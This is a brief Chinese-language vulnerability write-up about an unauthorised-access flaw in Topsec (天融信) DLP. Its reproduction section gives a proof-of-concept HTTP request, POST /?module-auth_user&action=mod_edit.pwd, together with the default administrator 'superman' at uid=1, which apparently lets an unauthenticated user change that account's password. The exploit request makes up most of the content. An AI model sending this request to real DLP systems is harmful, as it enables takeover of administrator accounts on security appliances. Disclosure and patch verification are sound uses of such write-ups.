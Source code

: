 # 

# 天融信 DLP 未授权访问漏洞

## 漏洞描述

天融信DLP存在未授权访问漏洞

## 漏洞影响

```
天融信DLP
```

## 漏洞复现

POC为

```plain
默认用户superman的uid=1
POST /?module-auth_user&action=mod_edit.pwd HTTP/1.1
```


